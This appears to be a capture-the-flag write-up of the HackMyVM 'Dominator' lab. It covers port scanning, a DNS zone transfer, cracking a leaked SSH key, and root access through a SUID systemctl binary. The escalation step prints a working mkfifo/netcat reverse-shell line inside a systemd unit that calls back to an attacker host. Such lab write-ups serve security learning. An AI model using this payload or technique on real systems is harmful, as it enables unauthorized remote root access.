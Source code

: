 ```yaml
---
layout: default
title : muzec - Dominator Writeup
---
```



![image](https://user-images.githubusercontent.com/69868171/121172209-73f95f80-c825-11eb-9992-5f80ffb884c8.png)

We always start with an nmap scan.....

```Nmap -sC -p- -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/dominator]
└─$ cat nmap.nmap                                                                                                                                                  1 ⨯
# Nmap 7.91 scan initiated Mon Jun  7 18:03:16 2021 as: nmap -sC -p- -sV -oA nmap 172.16.139.207
Nmap scan report for 172.16.139.207
Host is up (0.00019s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
53/tcp    open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
65222/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7:ea:48:1a:a3:46:0b:bd:ac:47:73:e8:78:25:af:42 (RSA)
|   256 2e:41:ca:86:1c:73:ca:de:ed:b8:74:af:d2:06:5c:68 (ECDSA)
|_  256 33:6e:a2:58:1c:5e:37:e1:98:8c:44:b1:1c:36:6d:75 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.91%I=7%D=6/7%Time=60BE97B0%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x0
SF:4bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20current
SF:ly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 18:03:42 2021 -- 1 IP address (1 host up) scanned in 26.19 seconds
```

We have 3 open port scanning for full ports give us three open ports which is nice we have DNS,HTTP and SSH running an higher port now let start our enumeration with HTTP.

![image](https://user-images.githubusercontent.com/69868171/121172563-d7838d00-c825-11eb-976f-40b0c8c3b763.png)

We have `robots.txt` nice let confirm it.

![image](https://user-images.githubusercontent.com/69868171/121172654-ed914d80-c825-11eb-9297-f3a1830e3f8f.png)

Added to `/etc/hosts` now let dig in DNS.

```
dig axfr @172.16.139.207
dig axfr @172.16.139.207 dominator.hmv
```

![image](https://user-images.githubusercontent.com/69868171/121173089-655f7800-c826-11eb-9f9f-eef9034092fb.png)

Nice so i need `secret.dominator.hmv.` to my `/etc/hosts` also `/fhcrefrperg` look strange try it on cyber chef got nothing so i try solve crypto with force.

![image](https://user-images.githubusercontent.com/69868171/121173392-c424f180-c826-11eb-9d4d-bad9133af947.png)

`http://secret.dominator.hmv/supersecret/`  and we have a file probably a private key let check it.

![image](https://user-images.githubusercontent.com/69868171/121173839-41506680-c827-11eb-89b9-e055dae6995f.png)

So download it to my machine for cracking we already have a username which is `hans` time to hit John The Ripper.

![image](https://user-images.githubusercontent.com/69868171/121174002-7492f580-c827-11eb-8ef8-2932cd257a92.png)

Giving the private key permission before logging in SSH.

![image](https://user-images.githubusercontent.com/69868171/121174157-9f7d4980-c827-11eb-9686-61ba48f629b6.png)

Now getting the user.txt flag so we have a note on the user home directory.

![image](https://user-images.githubusercontent.com/69868171/121174261-ba4fbe00-c827-11eb-9870-63adf5fa574e.png)

Time to use find command to get it `find / -name user.txt 2>/dev/null` and boom found it in trash.

![image](https://user-images.githubusercontent.com/69868171/121174446-e8cd9900-c827-11eb-88d5-fc75104c1d1f.png)


### Privilege Escalation

Checking SUID `find / -perm -u=s -type f 2>/dev/null` and we have `/usr/bin/systemctl` running on SUID cool let check gtfobins.

![image](https://user-images.githubusercontent.com/69868171/121174733-3b0eba00-c828-11eb-96a7-85032b2fa7fd.png)

```
hans@Dominator:~$ TF=$(mktemp).service
hans@Dominator:~$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.4 1337 >/tmp/f"
> [Install]
> WantedBy=multi-user.target' > $TF
hans@Dominator:~$ /usr/bin/systemctl link $TF
Created symlink /etc/systemd/system/tmp.nBo4OcIuNS.service → /tmp/tmp.nBo4OcIuNS.service.
hans@Dominator:~$ /usr/bin/systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.nBo4OcIuNS.service → /tmp/tmp.nBo4OcIuNS.service.
```
Checking our Ncat listener and we have root shell.

![image](https://user-images.githubusercontent.com/69868171/121175574-339be080-c829-11eb-84f4-b5a4d221e2b0.png)

We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

